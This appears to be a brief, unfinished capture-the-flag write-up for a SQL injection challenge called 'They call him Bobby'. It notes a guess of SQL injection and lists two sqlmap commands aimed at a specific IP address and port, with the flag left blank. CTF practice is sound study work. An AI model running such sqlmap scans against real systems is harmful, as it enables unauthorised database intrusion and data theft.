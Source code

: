 # They call him Bobby

![Alt text](image_001.png)

### They call him Bobby  - Resolution

<https://bobby-tables.com/>

- sql injection ?

- sqlmap -u http://193.57.159.27:54085/ --dbms=mysql  --delay=0.5
- sqlmap -u http://193.57.159.27:54085/ --dbms=mariadb  --delay=0.5

``` Flag :  ```
